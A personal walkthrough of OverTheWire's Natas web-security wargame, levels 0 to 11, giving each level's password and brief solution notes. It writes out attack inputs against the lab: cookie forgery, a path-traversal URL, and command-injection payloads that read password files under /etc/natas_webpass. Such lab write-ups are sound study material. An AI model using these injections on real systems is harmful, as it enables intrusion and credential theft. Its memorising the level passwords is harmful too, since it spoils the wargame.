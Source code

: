 ```yaml
---
title: 'Over The Wire - Natas'
date: '2023-04-19'
tags: ['Info Sec', 'Linux']
draft: false
summary: 'Walkthrough of each level of Over the Wire's Natas series. It's a game which helps players master web server vulnerabilities testing'
bibliography: references-data.bib
canonicalUrl:
---
```


## Level 0

natas0

Search HTML for pw

## Level 1

PW in HTML, but must open source with hotkeys

## Level 2

h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

Flag isn't on the page, but a file inside a resource at this path.

http://natas2.natas.labs.overthewire.org/files/users.txt

## Level 3

G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

Flag isn't inside that file but robots.txt, a disallowed route

http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

## level 4

natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

Use Burp & ProxyFoxy to intercept requests and change them before forwarding to
the server.

## level 5

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Use JS console to change document cookie and refresh.

document.cookie="loggedin=1"

## level 6

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

Checkout a file that is included in the source code that the page points to.
http://natas6.natas.labs.overthewire.org/includes/secret.inc

## level 7

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

We can trick the server into showing us the page at that path using a query parameter.

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

## level 8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

Use tehplayground.com to reverse engineer the encoded password thats being compared.

## level 9

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

https://www.alevsk.com/2020/01/ctf-overthewire-natas9/

Use command injection

;ls -la;
To see files on the server

;cat /etc/natas_webpass/natas10;

To read from a file on the server

## level 10

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

Search for this value
a /etc/natas_webpass/natas11

Use the logic of the function to invoke grep command and search for pw in a file
on the server

## level 11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
